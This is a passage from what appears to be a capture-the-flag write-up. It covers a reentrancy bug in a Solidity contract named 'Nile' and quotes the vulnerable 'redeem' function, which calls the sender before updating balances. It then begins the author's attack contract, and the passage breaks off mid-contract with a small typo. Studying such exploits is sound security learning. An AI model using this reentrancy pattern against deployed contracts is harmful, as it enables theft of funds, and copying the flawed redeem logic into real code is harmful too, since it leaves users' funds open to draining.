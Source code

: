 Ah, right.  The contract owner is also giving away free tokens!  The
`redeem` function checks that the caller has a valid account and is
not redeeming more tokens than is redeemable.  Then it calls the
[fallback
function](https://docs.soliditylang.org/en/v0.8.12/contracts.html#fallback-function).

```solidity
    function redeem(uint amount) public {
        require(accounts[msg.sender]);
        require(redeemable[msg.sender] > amount);

        (bool status, ) = msg.sender.call("");

        if (!status) {
            revert();
        }

        redeemable[msg.sender] -= amount;
        balance[msg.sender] += amount;

        emit Redeem(msg.sender, amount);
    }
}
```

And this is where the bug is.  Since the `redeemable` and `balance`
maps get updated after the fallback function is called, we can make
the fallback function do another call to `redeem`, and again, and
again...

### The Attack
So, what we need to do, in standard terminology, is something called a
[reentrancy
attack](https://consensys.github.io/smart-contract-best-practices/attacks/reentrancy/).
While theoretically simple, it was my first time doing it and I had
some [unfortunate
attempts](https://goerli.etherscan.io/tx/0xccd3cc70d019e9b008b06c6ec56d1c81054e41a8c116ab01fe6aeb61e66e088c#internal)
initially (my frustration will forever be captured on the
blockchain).

To set it up we have to write another contract that will serve as the
attack. Here's what I wrote:

```solidity
pragma solidity ^0.7.6;
import "./Nile.sol";

contract Attack {
    Nile nile;
    uint256 internal n = 0;
    event Fallback(address caller, string message);

    constructor(address _nile) {
        nile = Nile(_nile);
    }

    function attack() public {f
        nile.createAccount();
        nile.redeem(99);
    }

    function getFlag(bytes32 token) public {
        nile.getFlag(token);
    }

```